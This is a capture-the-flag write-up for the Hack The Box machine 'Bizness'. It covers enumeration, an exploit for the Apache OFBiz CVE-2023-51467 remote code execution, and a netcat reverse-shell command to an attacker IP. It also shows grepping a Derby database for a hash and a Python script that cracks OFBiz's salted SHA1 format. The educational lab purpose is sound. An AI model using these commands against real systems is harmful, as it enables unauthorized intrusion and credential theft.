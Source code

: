 ![HTB - Bizness](/HTB/Bizness/box_logo.png)

# HTB - Bizness Writeup

[HTB website](https://app.hackthebox.com/machines/582)

<br>

## Enumeration

---

We start as usual: nmap. While waiting for the nmap results, I check the webpage because boxes usually have a webpage. The IP redirects me to `bizness.htb` so I add this to `/etc/hosts`. Nmap results:

![nmap results](/HTB/Bizness/nmap_results.JPG)

Since the box has a webpage, I start the directory enumeration as well (-k because the website has a self-signed certificate, -b302 because there is always a redirect to the home page even though the url does not exist): 

~~~bash
gobuster dir -u https://bizness.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -b 302,404
~~~

After a short while, a directory is found: `/control`:

![control500](/HTB/Bizness/control_500.JPG)

<br>

## Initial Foothold

---

This gives the information of the framework used for this website: Apache Ofbiz. The initial instinct is to research about well-known or recent vulnerabilities of this framework. After a quick Google search, we find a significant and very recent vulnerability: `CVE-2023-51467`. It says `Unauthenticated Remote Code Execution` so it is a fit for our case as well.

Finding a PoC exploit for this vulnerability was not easy. There were scripts that checks if the website is vulnerable, but they wouldn't work as exploits. After quite some research and trials, I found one that gives good results: [https://www.vicarius.io/vsociety/posts/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467-exploit](https://www.vicarius.io/vsociety/posts/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467-exploit)

(This script had a java error, but downloading ysoserial-all.jar from the internet fixed the error.)

First, I tried my payload as usual bash reverse shell, but it didn't work. After some tries of payloads, this one worked:

~~~bash
python3 exploit.py --url https://bizness.htb --cmd "nc <HTB_SELF_IP> 7777 -e /bin/bash"
~~~

<br>

## Privilege Escalation

---

Despite the "easy" tag of the box, privilege escalation was not easy at all. I tried numerous manual techniques with no results. I tried linpeas.sh with some interesting results. Before getting to the solution, here are some rabbit holes:

- A folder called "l" inside the home directory. It had a file called "python3" which had "set_uid=eip" capabilities. Later, it turned out that the folder was a leftover from QA testing, and HTB updated the box deleting that file.
- Writable "gradlew" script  inside the web framework folder, which were called by the system services on startup.
- SSH private and public keys for persistence. I tried cracking the passphrase of the private key with no results.

### The eventual solution:

linpeas.sh gave a clue about this but it took time for me to notice it among other hundreds of results. The web framework had a database. A derby database. I couldn't log in to the database but there were database files which might have valuable info. 

There were a quite number of files in /opt/ofbiz/runtime/data/derby/ofbiz/seg0, so checking one by one would take a lot of time. I tried a lot of regexes until I optimized to the following one: 

~~~bash
grep -ari -Po ".{0,40}password.{0,40}" .
~~~

The results of this command includes a hash:

~~~d
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
~~~

We can understand that it is a SHA1 hash and it has a salt "d". But the rest is not in a usual format. Moreover, in hashing process, passwords and salts can be used together in a lot of different ways. To be able to crack this hash, we need to understand how it was hashed. We need to copy the same process that is followed by Ofbiz framework to our wordlist (it is an open-source project so it should be easy to find out what kind of algorithm they use).

### Hashing our Rockyou

First of all, we need to find their hashing algorithm. From their documentation ([link](https://nightlies.apache.org/ofbiz/stable/javadoc/org/apache/ofbiz/base/crypto/HashCrypt.html)), it is possible to identify the name of the algorithms. But the source code is not on their website directly. So, I went for the source code inside the box. The path is the same as in the website. This is the base hashing algorithm:

![ofbiz hashing](/HTB/Bizness/ofbiz_hashing.JPG)

I rewrote the hashing in Python to be able to hash the words in our wordlist and find the password:

```python
import hashlib
import base64


def ofbiz_hash(passwd):
    newHash = hashlib.new("SHA1")
    newHash.update("d".encode('utf-8'))
    newHash.update(passwd.encode('utf-8'))
    result = newHash.digest()
    return base64.urlsafe_b64encode(result).decode('utf-8').replace('+', '.')[:-1]


wordlist = "rockyou.txt"
with open(wordlist, 'r', encoding='latin-1') as passwords:
    print(f"Wordlist loaded: {wordlist}")
    for password in passwords:
        if ofbiz_hash(password) == "uP0_QaVBpDWFeo8-dRzDqRwXQ2I":
            print(f"Password found: {password}")
            break
```

With the password found, we can:

~~~bash
su root
cat /root/root.txt
~~~
